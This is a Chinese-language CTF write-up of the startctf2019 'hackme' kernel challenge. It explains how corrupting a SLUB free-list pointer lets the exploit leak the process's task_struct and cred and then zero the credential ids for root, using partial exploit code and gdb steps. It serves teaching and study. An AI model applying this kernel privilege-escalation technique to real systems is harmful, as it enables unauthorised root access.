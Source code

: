 ```yaml
---
layout: post
title: startctf2019 hackme Write-up 2
date: 2021-09-14
Author: LJP-TW
tags: [CTF]
comments: true
toc: true
excerpt_separator: <!--more-->
---
```


# 前言

上一篇 bypass SMAP 的方式主要是把 ROP chain 建在 kernel-space memory 中，但總感覺跟 bypass SMEP 差不多，就寫寫看不同的 exploit 了。

本篇 exploit 爬出了 exploit process 的 task_struct，進一步爬出 cred，最終通過改 cred 來提權，而非執行熟悉的 `commit_creds(prepare_kernel_cred(0))`。

但因為此 exploit 是通過改寫 slab object 的 next free object pointer 來達到在任意處分配 object，會影響到 free list 的指向，再加上這題在分配 pool 時也必須蓋掉分配到的記憶體，導致本 exploit 不是很穩定。 
<!--more-->

詳細題目敘述和漏洞的部分請看[上一篇](/blog/startctf2019-hackme/)

# Exploit
* [本篇完整 exploit 連結](https://github.com/LJP-TW/CTF/blob/master/startctf2019/hackme/exploit_edit_cred.c)
* 後面零碎的解釋 exploit

```c
    // Set comm
    strcpy(target,"try2findmep4nda");
    prctl(PR_SET_NAME, target);
```
* 這段 code 的效果要先看一下 task_struct 跟 prctl syscall

```c
struct task_struct {
    ...
    /*
	 * executable name, excluding path.
	 *
	 * - normally initialized setup_new_exec()
	 * - access it with [gs]et_task_comm()
	 * - lock it with task_lock()
	 */
	char				comm[TASK_COMM_LEN];
```

```c
SYSCALL_DEFINE5(prctl, int, option, unsigned long, arg2, unsigned long, arg3,
		unsigned long, arg4, unsigned long, arg5)
{
    ...
	case PR_SET_NAME:
		comm[sizeof(me->comm) - 1] = 0;
		if (strncpy_from_user(comm, (char __user *)arg2,
				      sizeof(me->comm) - 1) < 0)
			return -EFAULT;
		set_task_comm(me, comm);
		proc_comm_connector(me);
		break
```

* prctl PR_SET_NAME 會設定 task_struct 中的 comm
    * 在 kernel 中，最終是 `__set_task_comm` 做這件事情，此函數第一個參數就是此 process 的 task_struct，可以在此函數下中斷點，並且觀察一下 task_struct
    * 總之執行後，task_struct 的 comm 就會存放特定字串，後面的 exploit 會驗證這個字串來確認是否正確爬出 task_struct
    * [task_struct](https://elixir.bootlin.com/linux/v4.20.13/source/include/linux/sched.h#L590)
    * [prctl PR_SET_NAME](https://elixir.bootlin.com/linux/v4.20.13/source/kernel/sys.c#L2320)
    * [__set_task_comm](https://elixir.bootlin.com/linux/v4.20.13/source/fs/exec.c#L1238)

* 以跟上一篇一樣的方式洩漏出 kernel address
* 如此一來，就能得知 current_task 位址

```c
    // Free it
    ...
    // Overwrite next ptr
    ...
    // Allocate
    ...
    // Validate
    ...
    // Allocate again, this time we get a object at current_task+0xa00
    ...
    // Leak current_task task_struct
    read_pool(fd, victim_id + 2, recv_buf, -0xa00, 0xa00);
    current_task_struct = (char *)((ULL *)recv_buf)[0];
    printf("[*] current_task task_struct: %p\n", current_task_struct);
```

* 繼續利用漏洞加上 slub 分配機制，將 free object 的 next free object pointer 改在 current_task 的後方，再分配第二次後得到的 object 就會在 current_task 的後方
* 利用漏洞，往前超出範圍讀資料，就能得到 current_task 的內容，也就是此 process 的 task_struct 位址
* 繼續重複這個過程
    * 製造一個在此 process 的 task_struct 後方的 object，洩漏 cred 位址和 comm
    * 製造一個在 cred 後方的 object，讀出 cred 的內容，並將各種 id 的部分寫 0 回去，進行提權
* 過程中有一個問題是如何知道 cred 和 comm 在 task_struct 結構中的 offset
* 先說說 comm，觀察一下前面說的 `__set_task_comm`

```c
void __set_task_comm(struct task_struct *tsk, const char *buf, bool exec)
{
	task_lock(tsk);
	trace_task_rename(tsk, buf);
	strlcpy(tsk->comm, buf, sizeof(tsk->comm));
	task_unlock(tsk);
	perf_event_comm(tsk, exec);
}
```
* 可以發現裡面有用到 `tsk->comm`，用 gdb 去看 offset 多少即可
* 再來 cred，可以在 linux source code 搜尋 `current_cred`，並查看有哪些函數用到此 macro，再看哪個函數比較方便觀察

```c
static bool set_one_prio_perm(struct task_struct *p)
{
	const struct cred *cred = current_cred(), *pcred = __task_cred(p);
    ...
}

static int set_one_prio(struct task_struct *p, int niceval, int error)
{
    ...
    if (!set_one_prio_perm(p)) {
        ...
    }
    ...
}
```
* 最後找上了 `set_one_prio`，一樣 gdb 去看 offset

![image-20210914141445637](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-14-startctf2019-hackme-2/image-20210914141445637.png)
* 解釋一下圖
    * 先秀出了 current_task 內容，指向到 exploit process 的 task_struct
    * 再秀出 task_struct + 0x3c0，這邊為指向 cred 的 pointer，緊接著是 comm 的部分
    * 秀出 comm 的確是前面設定的特定字串
    * 最後秀出 cred 內容，此 user id 是 1000，也就是 0x3e8
* 最後是 exploit 真的有跑成功的圖，為機率性成功
![image-20210914163021898](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-14-startctf2019-hackme-2/image-20210914163021898.png)

# Reference
* [【KERNEL PWN】从内存任意读写到权限提升](http://p4nda.top/2018/11/07/stringipc/)
